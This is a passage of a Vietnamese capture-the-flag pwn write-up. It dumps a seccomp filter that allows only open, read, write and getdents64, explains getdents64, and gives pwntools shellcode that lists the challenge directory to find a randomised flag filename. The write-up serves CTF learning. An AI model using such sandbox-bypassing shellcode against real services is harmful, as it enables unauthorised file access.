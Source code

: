 ```c
ploi@PhuocLoiiiii:~/pwn/shellcode/message/dist$ seccomp-tools dump ./chall
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x08 0xc000003e  if (A != ARCH_X86_64) goto 0010
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x05 0xffffffff  if (A != 0xffffffff) goto 0010
 0005: 0x15 0x03 0x00 0x00000000  if (A == read) goto 0009
 0006: 0x15 0x02 0x00 0x00000001  if (A == write) goto 0009
 0007: 0x15 0x01 0x00 0x00000002  if (A == open) goto 0009
 0008: 0x15 0x00 0x01 0x000000d9  if (A != getdents64) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x06 0x00 0x00 0x00000000  return KILL
```

- ta sẽ được open , read , write và getdents64 ở bài này , nói thêm về getdents64 : 

getdents64 là một syscall trong Linux dùng để đọc danh sách các mục trong thư mục (directory entries). Nó được sử dụng để lấy thông tin về các tệp và thư mục bên trong một thư mục nhất định.


```c
int getdents64(unsigned int fd, struct linux_dirent64 *dirp, unsigned int count);
```

1. fd: File descriptor của thư mục cần đọc.
2. dirp: Con trỏ trỏ đến bộ đệm để lưu trữ danh sách các mục trong thư mục.
3. count: Số byte tối đa để đọc vào bộ đệm.

- và chắc chắn ý đồ của tác giả là sử dụng nó nên mới thêm vào , tệp flag được cho ở local là 1 cái tên rất dài (random) nên trước hết ta sẽ liệt kê nó ra và in ra , tiếp theo đơn giản là ta lại dùng orw để lấy flag: 

- ta sẽ dùng pwntools để lấy tên tệp flag , syscall **getdents64** sau khi thực thi thì nó sẽ lưu các tên tệp và dic ở trong stack , vậy ta chỉ cần write để in nó ra 

```python
def getenv():
    pl = shellcraft.open('./')
    pl += shellcraft.getdents64(3,"rsp",0x200)
    pl += shellcraft.write(1,"rsp",0x200)
    return pl

payload = asm(getenv())
input()
p.sendafter(b'tell me? \n',payload)
```

- ta tìm được tên tệp : **flag-3462d01f8e1bcc0d8318c4ec420dd482a82bd8b650d1e43bfc4671cf9856ee90.txt**

![getenv](/assets/images/getenv.png)
